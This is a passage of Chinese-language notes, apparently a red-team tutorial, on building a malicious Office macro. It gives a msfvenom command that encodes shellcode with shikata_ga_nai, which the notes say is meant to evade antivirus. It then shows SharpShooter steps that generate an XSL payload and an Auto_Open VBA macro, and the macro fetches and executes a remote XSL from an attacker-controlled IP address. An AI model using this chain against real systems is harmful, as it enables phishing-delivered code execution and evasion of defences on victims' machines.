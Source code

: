 由于 `SharpShooter`要求shellcode中不能含有空字节, 所以要用 msfvenom 处理下生成的 payload.bin

```bash
msfvenom -p generic/custom PAYLOADFILE=./payload_raw_x86_131_80.bin -a x86 --platform windows -e x86/shikata_ga_nai -f raw -o shellcode-encoded.bin -b "\x00"
```

- `-p generic/custom`：指定使用自定义的 payload。

- `PAYLOADFILE=./payload.bin`：指定自定义 payload 的文件路径，这里是当前目录下的 `payload.bin` 文件。

- `-a x86`：指定目标架构为 x86（32 位）。

- `--platform windows`：指定目标平台为 Windows。

- `-e x86/shikata_ga_nai`：使用 `x86/shikata_ga_nai` 编码器对 payload 进行编码。

  `shikata_ga_nai` 是一种多态编码器，能有效地混淆 payload，以绕过防病毒软件的检测。

- `-f raw`：指定输出格式为原始二进制格式（raw）。

- `-o shellcode-encoded.bin`：指定输出文件名为 `shellcode-encoded.bin`。

- `-b "\x00"`：指定在编码过程中要避免的字节，这里是 `\x00`（空字节），通常为了防止字符串终止符影响 payload 的执行。

---

#### 生成 xsl 和 macro

```bash
# clone SharpShooter Repo
git clone https://github.com/mdsecactivebreach/SharpShooter.git

// 代理
git clone https://ghproxy.org/https://github.com/mdsecactivebreach/SharpShooter.git

cd SharpShooter
virtualenv -p python2 ss2
source ss2/bin/activate
pip install -r requirements.txt

# 生成 xsl 和 macro 文件
python SharpShooter.py --stageless --dotnetver 2 --payload macro --output foo --rawscfile ../shellcode-encoded.bin --com xslremote --awlurl http://100.1.1.131:8000/download/foo.xsl

```

- –dotnetver：为目标的.net版本，可选2或者4
- –awlurl： xsl存放地址

![image-20240704174338316](http://cdn.ayusummer233.top/DailyNotes/202407041743965.png)

---

`foo.macro`: 创建一个 COM 对象加载远程 XSL

```vb
Sub Auto_Open()
    Set XML = CreateObject("Microsoft.XMLDOM")
    XML.async = False
    Set xsl = XML
    xsl.Load "http://100.1.1.131:8000/download/foo.xsl"
    XML.transformNode xsl
End Sub
```
